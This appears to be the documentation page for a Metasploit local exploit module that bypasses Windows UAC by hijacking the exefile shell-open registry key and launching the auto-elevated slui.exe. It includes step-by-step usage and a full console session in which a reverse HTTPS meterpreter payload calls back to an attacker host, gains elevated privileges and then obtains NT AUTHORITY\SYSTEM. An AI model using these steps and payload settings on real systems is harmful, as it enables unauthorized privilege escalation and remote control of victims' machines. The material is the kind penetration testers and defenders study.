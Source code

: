 ## Introduction

  This module will bypass UAC on Windows 8-10 by hijacking a special key in the Registry under
  the Current User hive, and inserting a custom command that will get invoked when
  any binary (.exe) application is launched. But slui.exe is an auto-elevated binary that is
  vulnerable to file handler hijacking. When we run slui.exe with changed Registry key
  (HKCU:\Software\Classes\exefile\shell\open\command), it will run our custom command as Admin
  instead of slui.exe.

  The module modifies the registry in order for this exploit to work. The modification is
  reverted once the exploitation attempt has finished.
	
  The module does not require the architecture of the payload to match the OS. If
  specifying EXE::Custom your DLL should call ExitProcess() after starting the
  payload in a different process.

## Usage
	
  1. First we need to obtain a session on the target system.
  2. Load module: `use exploit/windows/local/bypassuac_sluihijack`
  3. Set the `payload`: `set payload windows/x64/meterpreter/reverse_tcp`
  4. If an existing handler is configured to receive the elevated session,
  then the module's handler should be disabled: `set DisablePayloadHandler true`.
  5. Configure the `payload`.
  6. `Exploit` it.

## Scenarios

```
msf exploit(multi/handler) > 
[*] https://192.168.0.30:443 handling request from 192.168.0.33; (UUID: d4iywkip) Encoded stage with x86/shikata_ga_nai
[*] https://192.168.0.30:443 handling request from 192.168.0.33; (UUID: d4iywkip) Staging x86 payload (180854 bytes) ...
[*] Meterpreter session 1 opened (192.168.0.30:443 -> 192.168.0.33:49875) at 2018-04-07 18:33:11 +0200

msf exploit(multi/handler) > sessions 

Active sessions
===============

  Id  Name  Type                     Information                 Connection
  --  ----  ----                     -----------                 ----------
  1         meterpreter x86/windows  WIN10-01\user01 @ WIN10-01  192.168.0.30:443 -> 192.168.0.33:49875 (192.168.0.33)

msf exploit(multi/handler) > sessions 1
[*] Starting interaction with 1...

meterpreter > sysinfo 
Computer        : WIN10-01
OS              : Windows 10 (Build 16299).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > getuid 
Server username: WIN10-01\user01
meterpreter > getprivs 

Enabled Process Privileges
==========================

Name
----
SeChangeNotifyPrivilege
SeIncreaseWorkingSetPrivilege
SeShutdownPrivilege
SeTimeZonePrivilege
SeUndockPrivilege

meterpreter > background 
[*] Backgrounding session 1...
msf exploit(multi/handler) > use exploit/windows/local/bypassuac_sluihijack
msf exploit(windows/local/bypassuac_sluihijack) > show targets 

Exploit targets:

   Id  Name
   --  ----
   0   Windows x86
   1   Windows x64


msf exploit(windows/local/bypassuac_sluihijack) > set target 1
target => 1
msf exploit(windows/local/bypassuac_sluihijack) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
msf exploit(windows/local/bypassuac_sluihijack) > set session 1
session => 1
msf exploit(windows/local/bypassuac_sluihijack) > set LHOST 192.168.0.30
LHOST => 192.168.0.30
msf exploit(windows/local/bypassuac_sluihijack) > exploit 

[*] Started HTTPS reverse handler on https://192.168.0.30:8443
[*] UAC is Enabled, checking level...
[+] Part of Administrators group! Continuing...
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
[*] Configuring payload and stager registry keys ...
[*] Executing payload: C:\Windows\Sysnative\cmd.exe /c powershell Start-Process C:\Windows\System32\slui.exe -Verb runas
[*] https://192.168.0.30:8443 handling request from 192.168.0.33; (UUID: znqja6ua) Staging x64 payload (207449 bytes) ...
[*] Meterpreter session 2 opened (192.168.0.30:8443 -> 192.168.0.33:49881) at 2018-04-07 18:34:39 +0200
[*] Cleaining up registry keys ...

meterpreter > getprivs 

Enabled Process Privileges
==========================

Name
----
SeBackupPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeCreatePagefilePrivilege
SeCreateSymbolicLinkPrivilege
SeDebugPrivilege
SeImpersonatePrivilege
SeIncreaseBasePriorityPrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
SeLoadDriverPrivilege
SeManageVolumePrivilege
SeProfileSingleProcessPrivilege
SeRemoteShutdownPrivilege
SeRestorePrivilege
SeSecurityPrivilege
SeShutdownPrivilege
SeSystemEnvironmentPrivilege
SeSystemProfilePrivilege
SeSystemtimePrivilege
SeTakeOwnershipPrivilege
SeTimeZonePrivilege
SeUndockPrivilege

meterpreter > getsystem 
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```
